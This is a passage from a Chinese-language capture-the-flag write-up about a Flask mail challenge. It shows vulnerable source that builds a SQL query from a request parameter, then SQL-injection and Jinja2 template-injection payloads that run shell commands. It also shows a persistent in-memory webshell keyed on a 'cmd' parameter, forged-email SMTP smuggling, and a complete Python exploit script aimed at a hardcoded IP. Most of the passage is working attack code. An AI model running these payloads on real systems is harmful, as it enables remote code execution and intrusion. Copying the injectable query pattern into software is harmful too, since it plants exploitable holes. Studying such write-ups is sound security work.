    news_id = request.args.get("id")

    if not news_id:
        news_id = 1

    conn = sqlite3.connect("news.db")
    cursor = conn.cursor()

    cursor.execute(f"SELECT title FROM news WHERE id = {news_id}")
    result = cursor.fetchone()
    conn.close()

    if not result:
        return "Page not found.", 404
    return result[0]

@app.route("/")
def index():
    return render_template("index.html")

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=3000)

```

首先看到`/news`路由的注入点，参数可控可以进行命令注入

```sqlite
1 union select "<script>alert(1)</script>"
```

`/admin`有渲染函数，



`fetch_page_content(url)`函数用来处理url，进行一些限制，不影响，`get_subjects(username, password)`有用户名和密码，不用管，这个函数就是用来返回发送的邮件，将其解析为字符串进行返回的，`/bot`和`/admin`是链接在一起的，思路明确，通过`/news`插入邮件再让bot解析即可，发现无回显打内容马，而且有转义问题，因为其中涉及sql语句

```sqlite
select 1 union select "{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}";                                         
                                           
select 1 union select "{{cycler.__init__.__globals__.__builtins__[\'__import__\'](\'os\').popen(\'ls\').read()}}";
```



两个都成功，没成功的肯定也是无法打入的

```sqlite
select 1 union select "{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}";
```

没成功，

```sqlite
select 1 UNION SELECT "{{url_for.__globals__['__builtins__']['eval'](\"app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\\\"global CmdResp;CmdResp=__import__('flask').make_response(__import__('os').popen(request.args.get('cmd')).read())\\\")==None else resp)\",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}";
```

成功，写到脚本里面

```python
import requests
from urllib.parse import quote

target_url = 'http://156.238.233.93:3000'

def report():
    evil = """
{{url_for.__globals__['__builtins__']['eval'](
    \"app.after_request_funcs.setdefault(None, []).append(
        lambda resp: CmdResp if request.args.get('cmd') and exec(
            \\\"global CmdResp;CmdResp=__import__('flask').make_response(
                __import__('os').popen(request.args.get('cmd')).read()
            )\\\"
        ) == None else resp
    )\",
    {'request': url_for.__globals__['request'], 'app': url_for.__globals__['current_app']}
)}}
"""

    injected_subject = f"http://ezmail.org/news?id=0%20union%20select%20\"{quote(evil)}\""
    poc = (
        "aaa\r\n.\r\n"
        "From: admin@ezmail.org\r\n"
        "To: ignored@ezmail.org\r\n"
        f"Subject: {injected_subject}\r\n"
        "\r\naaa"
    )

    data = {
        'url': 'http://test.com',
        'content': poc,
    }
    mail_content = (
        f"From: ignored@ezmail.org\r\n"
        f"To: admin@ezmail.org\r\n"
        f"Subject: http://test.com\r\n"
        f"\r\n{poc}\r\n.\r\n"
    )
    print('mail_content: \n' + mail_content, end='')

    r = requests.post(target_url + '/report', data=data)
    print('[*] /report response: \n' + r.text)

def bot():
    res = requests.get(target_url + '/bot')
    print('[*] /bot response: \n' + res.text)

if __name__ == '__main__':
    report()
    bot()

```


